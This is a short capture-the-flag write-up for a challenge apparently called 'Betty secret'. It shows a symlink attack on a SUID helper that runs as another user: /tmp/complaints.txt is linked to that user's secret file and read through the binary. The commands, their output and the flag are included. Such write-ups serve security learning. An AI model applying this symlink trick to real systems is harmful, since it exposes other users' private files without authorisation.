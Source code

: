 ***

### Betty secret

GPT ftw. But basically about link

that SUID binary is your way in. It runs as **betty** and reads fixed files by keyword. Notice the hard-coded paths in strings get:

* finance -> /home/betty/finance.txt
* receipts -> /home/betty/receipts.txt
* employees -> /home/betty/employees.txt
* complaints -> /tmp/complaints.txt
* secret -> Access denied.

So just make /tmp/complaints.txt point at Betty’s secret and ask the SUID program to read complaints

```bash
$ ls -lha
total 56K
drwxr-x--- 1 employee427 employee427 4.0K Aug 30 07:17 .
drwxr-xr-x 1 root root 4.0K Jul 24 05:33 ..
-rw------- 1 employee427 employee427 144 Aug 30 07:17 .bash_history
-rw-r--r-- 1 employee427 employee427 220 Jan 6 2022 .bash_logout
-rw-r--r-- 1 employee427 employee427 3.7K Jan 6 2022 .bashrc
drwx------ 2 employee427 employee427 4.0K Aug 30 06:55 .cache
-rw-r--r-- 1 employee427 employee427 807 Jan 6 2022 .profile
-rw-rw-r-- 1 employee427 employee427 44 Aug 30 07:10 all_output.txt
-rwsr-xr-x 1 betty betty 16K Jul 24 05:33 get
lrwxrwxrwx 1 employee427 employee427 22 Aug 30 07:06 mysecret -> /home/betty/secret.txt
-rw-rw-r-- 1 employee427 employee427 68 Aug 30 07:14 output.txt
lrwxrwxrwx 1 employee427 employee427 22 Aug 30 07:15 secret -> /home/betty/secret.txt
lrwxrwxrwx 1 employee427 employee427 22 Aug 30 07:00 secret.bak -> /home/betty/secret.txt
# clean any existing file
rm -f /tmp/complaints.txt
# point complaints to the secret
ln -s /home/betty/secret.txt /tmp/complaints.txt
# use the setuid helper to read it
./get complaints | tee output.txt
checking user credentials...
Read data:
Lately, I’ve been watching animation in slow motion. When it’s set to the normal speed,
it feels like a series of flashes blinking in disarray, as if they’re convulsing.
This must be what wireheading feels like. Soon, we will be unable to be as much as aware of the sheer scale of acceleration,
because everything is already happening too fast.
Before we know it, there won’t be any time to think, nor there will be any need to.
Through sensationalism of communication, simplification of spoken language and absence of friction, what is being created are shortcuts to pleasure.
Somewhere on a subconscious level, everyone has realized: we're running out of time. There’s simply not enough of it.
However, singularity looming over the horizon no longer matters to a data-addicted brain.
Perhaps, it’s a cyclical process that inevitably consumes all intelligence: in the end, everything becomes a white line, obscene and flat.
As the social sphere is becoming a sousvelliant panopticon,
I yearn to stay inside the Forest. So that sometimes, I could emerge with a wreath decorated with the treasures I found.
sunctf{1mpr0p3r_l1nq_r350lu710n_99236aa6854a605}
```
